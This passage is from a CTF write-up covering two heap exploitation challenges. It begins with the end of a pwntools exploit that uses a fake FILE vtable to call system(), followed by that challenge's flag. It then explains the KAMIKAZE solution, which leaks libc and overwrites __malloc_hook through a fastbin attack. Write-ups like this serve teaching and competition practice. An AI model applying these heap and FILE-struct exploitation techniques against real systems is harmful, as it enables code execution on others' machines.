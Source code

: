 ```python
fake_file += p64(libc_addr + IO_STR_FINISH - 0x18) #vtable_addr
fake_file += (0xe8-0xe0) * "\x00"
fake_file += p64(libc_addr + e.symbols["system"])

edit_title(hso_chunk, 'A' * 8 + fake_file)

sh.send("1\n")

sh.interactive()
```

However, the flag is `flag{Gu4rd_at_MALLOC_HOOK_bu1_n0t_4t_FREE_HOOK??}`, but I didn't use free hook at all, how can this pass the check of flag?

## 982 Pwn / KAMIKAZE ##

**Description**

> This app is the secret to Eminem's lyrical genuis. Wonder what other info is hidden in there.
> 
> `nc 185.168.131.14 6200`

**Files provided**

 - [kamikaze](files/kamikaze)

**Solution** (by [Mem2019](https://github.com/Mem2019))

The problem is here.

```c
//in create
read(0, v3->buf_0x10, 0x10uLL);            // no term
//in KAMIKAZE, which is a xor
for ( i = 0; i < strlen(v4->buf_0x10); ++i )
  v4->buf_0x10[i] ^= seed; // strlen may > 0x10 !
```

so we can change the size of next chunk.

However, it is restricted that `1 < seed <= 0xE`, so we can only change the least significat 4 bits; however, this is not related to size but is some bit flag. If we want to change the size, we must have chunk with `size > 0x100`, which cannot be allocated directly since only fast bin size is allowed. 

Thus, we need to construct an unsorted bin first by shrinking the size of top chunk. If the size required by `malloc` is larger than the top chunk, and there are chunks in fast bin free list, these fast bins will be consolidated into an unsorted bin.

Luckily, the top chunk size is `0x21000`, and after allocating some chunks, it will be `0x20XXX`, which can be shrinked if we xor it with 2, and at the same time the top chunk is still page aligned.

After having an unsorted bin chunk, we can extend the unsorted bin to leak the libc and rewrite the pointer in the struct to achieve arbitrary write.

Unlike the `Back Reimplemented` challenge, the `read` is used instead of `fgets`, so we can write 6 non-zero bytes if there are 6 non-zero bytes originally. What I did is to write the 0x70 fast bin list header in `main_arena` to `__malloc_hook - 0x23 ` (0x7f fast bin attack), thus rewriting the `__malloc_hook` to `one_gadget`
